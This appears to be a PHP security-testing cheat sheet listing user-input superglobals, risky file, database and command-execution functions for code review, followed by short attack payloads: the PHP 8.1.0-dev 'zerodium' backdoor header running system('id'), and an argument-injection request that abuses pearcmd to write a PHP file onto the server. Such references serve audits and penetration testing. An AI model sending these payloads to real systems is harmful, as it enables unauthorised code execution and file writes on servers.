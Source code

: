 ### User supplied data
```
$_GET
$HTTP_GET_VARS
$_POST
$HTTP_POST_VARS
$_COOKIE
$HTTP_COOKIE_VARS
$_REQUEST
$_FILES
$HTTP_POST_FILES
$_SERVER['REQUEST_METHOD']
$_SERVER['QUERY_STRING']
$_SERVER['REQUEST_URI']
$_SERVER['HTTP_ACCEPT']
$_SERVER['HTTP_ACCEPT_CHARSET']
$_SERVER['HTTP_ACCEPT_ENCODING']
$_SERVER['HTTP_ACCEPT_LANGUAGE']
$_SERVER['HTTP_CONNECTION']
$_SERVER['HTTP_HOST']
$_SERVER['HTTP_REFERER']
$_SERVER['HTTP_USER_AGENT']
```

### File access
```
copy
file
file_get_contents
file_put_contents
fopen
fpassthru
gzfile
gzopen
gzpassthru
include
include_once
mkdir
parse_ini_file
readfile
readgzfile
rename
require
require_once
rmdir
unlink
virtual
```

### Database access
```
mysql_query
mssql_query
pg_query
```

### OS code execution
```
passthru
popen
proc_open
shell_exec
system
```

### PHP 8.1.0-dev - possible RCE
```
User-Agentt: zerodiumsleep(5);
User-Agentt: zerodiumsystem('id');
```

### Argument injection and write file 
```
# if register_argc_argv is enabled
# check argument injection ($_SERVER['argv'] should contain inject)
GET /phpinfo.php?inject

# create file using pearcmd (PEAR is used to manage PEAR packages)
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/<path>/<to>/<file>.php
```

